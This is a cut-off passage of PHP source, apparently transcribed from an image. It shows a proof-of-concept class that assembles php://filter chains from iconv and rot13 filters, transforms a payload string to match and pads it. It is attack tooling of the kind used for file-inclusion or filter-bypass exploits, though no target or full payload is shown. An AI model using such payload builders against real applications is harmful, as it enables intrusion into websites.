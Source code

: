 ```php
    public $poc_stack = [
        'convert' => [
            'from' => 'UCS-2LE',
            'to' => 'UCS-2BE'
        ],

        'string' => 'rot13'
    ];

    public function concatConvert($convfrom,$convto){
        return 'convert.iconv.'.$convfrom.'.'.$convto.'|';
    }

    public function concatString($stringop){
        return 'string'.'.'.$stringop.'|';
    }

    public function convert($convfrom,$convto,$poc){
        return iconv($convfrom,$convto,$poc);
    }


    public function string($stringop,$poc)
    {
        return $this->string[$stringop]($poc);
    }

    public function Run()
    {
        $result = "";
        $result .= $this->prefix;
        $result .= $this->base;
        $result_poc = "";

        foreach (array_keys($this->poc_stack) as $item) {
            if($item == 'string'){
                $result .= $this->concatString($this->poc_stack[$item]);
                $this->poc = $this->string($this->poc_stack[$item],$this->poc);
            }elseif ($item=='convert'){
                $result .= $this->concatConvert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to']);
                $this->poc = $this->convert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to'],$this->poc);

            }elseif ($item=='$zlib'){
                ;
            }
        }

        $tmp = $result;

        echo "length:",strlen($tmp),"\n";
        $padding = "";

        switch ($this->poc_stack['convert']['from']){
            case 'UCS-2LE' or 'UCS-2BE':
                $paddingnum = strlen($tmp)%2;
                if($paddingnum !== 0){
                    $padding = str_repeat('a',$paddingnum);
                }
                break;
            default:
                ;
```